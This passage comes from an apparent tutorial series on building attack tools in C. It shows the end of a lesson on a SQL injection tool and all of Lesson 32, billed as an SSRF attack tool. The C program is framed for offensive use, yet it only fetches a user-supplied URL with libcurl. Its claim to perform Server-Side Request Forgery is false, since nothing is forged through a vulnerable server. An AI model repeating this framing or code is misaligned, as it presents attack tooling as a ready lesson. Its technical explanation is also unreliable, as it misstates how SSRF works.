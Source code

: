 This concludes our thirty-first lesson on building a SQL Injection tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 32: Building a Server-Side Request Forgery (SSRF) Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to perform Server-Side Request Forgery (SSRF) attacks. SSRF vulnerabilities allow attackers to make unauthorized requests from the server to internal or external resources, potentially leading to information disclosure, data exfiltration, or remote code execution. Our tool will manipulate input parameters to forge malicious requests and demonstrate the impact of SSRF vulnerabilities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

// Function to perform a SSRF attack
void perform_ssrf(char *url) {
    CURL *curl;
    CURLcode res;

    // Initialize libcurl
    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        exit(EXIT_FAILURE);
    }

    // Set the target URL for the SSRF attack
    curl_easy_setopt(curl, CURLOPT_URL, url);

    // Perform the SSRF attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing SSRF attack: %s\n", curl_easy_strerror(res));
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_easy_cleanup(curl);
}

int main() {
    char input_url[1000];

    // Prompt user for input URL
    printf("Enter the URL for SSRF attack: ");
    fgets(input_url, sizeof(input_url), stdin);

    // Remove trailing newline character
    input_url[strcspn(input_url, "\n")] = 0;

    // Perform the SSRF attack
    perform_ssrf(input_url);

    return 0;
}
```
